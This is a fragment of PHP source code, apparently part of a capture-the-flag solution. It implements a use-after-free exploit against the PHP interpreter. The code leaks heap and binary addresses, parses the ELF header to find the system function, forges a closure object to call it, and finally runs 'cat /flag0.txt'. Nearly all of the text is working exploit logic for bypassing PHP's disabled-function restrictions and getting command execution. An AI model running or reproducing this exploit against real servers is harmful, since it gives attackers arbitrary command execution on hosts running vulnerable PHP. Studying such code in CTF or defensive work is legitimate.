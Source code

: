 ```php
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
```
